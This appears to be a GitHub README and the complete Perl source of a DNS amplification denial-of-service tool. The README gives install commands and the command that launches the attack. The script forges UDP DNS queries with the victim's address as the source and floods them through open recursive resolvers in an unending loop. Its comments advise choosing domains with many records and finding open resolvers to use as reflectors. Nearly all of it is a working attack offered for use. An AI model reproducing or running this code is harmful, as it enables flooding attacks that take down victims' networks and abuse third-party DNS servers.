 # DNS-Amp-Attack
Perl Script for a DNS Amplification Attack

Install required packages:
sudo apt-get install libnet-rawip-perl libnet-dns-perl

Get the script which generates the attack:
https://github.com/Bombarding/DNS-Amp-Attack.git

Execute the script:
sudo ./attack.pl IP address




#!/usr/bin/perl
# Get Net::RawIP at http://search.cpan.org/CPAN/authors/id/S/SZ/SZABGAB/Net-RawIP-0.21_01.tar.gz
# cpan Net::DNS:Resolver seems to work fine on each machine I throw it on, as well.
# PS: To see if you can spoof, check out the ANA Spoofer project.
# http://spoofer.csail.mit.edu/
#
# Written by Shadow
# irc.dark-irc.net #thecorpz
# chemshadow@gmail.com

use Net::DNS::Resolver;
use Net::RawIP;
use strict;

# Populate this list with domain names with lots of A records. IRC server DNS pools are a good place to look.
# Maybe get a cheap throwaway domain and add your own A records.
my @name = ("irc.efnet.net", "irc.dal.net", "irc.undernet.org", "irc.freenode.net");
my $names = "3"; #number of entries in @name, minus one.

# Populate this list with ONLY open, recursive dns servers.
# http://www.dnsstuff.com/ - Block their cookies to use the site w/o paying.
my $nameservers;
# my @nameservers = ("205.234.223.168", "64.202.117.121", "208.80.184.69", "200.255.59.150"); #4 entries.
my @nameservers = ("10.131.1.3", "10.131.1.5"); #4 entries.

# my $reflectors = "3"; # Number of entries in @nameservers, minus one.
my $reflectors = "1"; # Number of entries in @nameservers, minus one.

my $debug = 1; # Change to 0 if you don't wanna have your console flooded.

##########################
# END USER CONFIGURATION #
##########################

my $str;
my $name;
my $src_ip;
my $reflector;
$src_ip = $ARGV[0];

if ($ARGV[0] eq '') { print "Usage: " . $0 . " <IP>\n"; exit(0); }
print ("Hitting $ARGV[0]\n");

for (my $i=0; $i < 256; $i++) {
    # Make DNS packet
    $str = @name[int rand($names)];                            # Select entry from @name
    my $dnspacket = new Net::DNS::Packet($str, "A", "IN");
    my $dnsdata = $dnspacket->data;
    my $sock = new Net::RawIP({udp=>{}});
    # send packet
    # $str = @name[int rand($names)];                            # Select entry from @name
    $reflector = $nameservers[int rand($reflectors)];          # Select entry from @nameservers
    $sock->set({ip => {
                saddr => $src_ip, daddr => "$reflector", frag_off=>0,tos=>0,id=>1565},
                udp => {source => 53,
                dest => 53, data=>$dnsdata
                } });
     $sock->send;
     if ($debug eq "1") { print "Me -> " . $reflector . "(DNSing " . $str . ")" . " -> " . $src_ip . " \n"; }
     $i = 0;
}
exit(0);
